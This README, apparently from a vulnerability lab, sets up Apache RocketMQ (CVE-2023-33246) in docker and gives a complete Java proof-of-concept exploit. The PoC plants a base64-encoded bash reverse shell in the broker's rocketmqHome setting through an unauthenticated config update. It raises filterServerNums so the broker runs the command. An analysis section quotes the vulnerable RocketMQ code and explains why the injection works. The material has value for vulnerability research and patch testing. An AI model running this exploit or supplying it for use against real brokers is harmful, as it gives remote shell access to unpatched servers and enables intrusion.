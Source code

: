 # Apache RocketMQ RCE (CVE-2023-33246)

## Start

Use `docker compose` or `docker-compose` start

```shell
docker-compose up -d
```

## PoC

Use `IDEA` , `Eclipse` or `IDE` to create a new `Maven` project, import dependency:

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC：

```java
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.227.128";
        String targetPort = "10911";

        String shellHost = "192.168.227.128";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

After the console successfully outputs the new configuration, please wait for about 30 seconds and receive a reverse connection request:

![](screenshot.png)

## Simple Analysis

Why modify the `filterServerNums` property: If the configured `filterServerNums` is 0, the calculated `more` will also be 0, so it is not possible to enter the `callShell` method to execute commands.

```java
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

Why modify the `rocketmqHome` attribute: When building a command, the `splitShellString` method is ultimately called to split the parameters according to spaces. Therefore, it cannot be a `NamesrvAddr` parameter, but can only be the starting `rocketmqHome` parameter. However, due to parameter segmentation rules, stricter commands and clever techniques are required to execute.

```java
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```
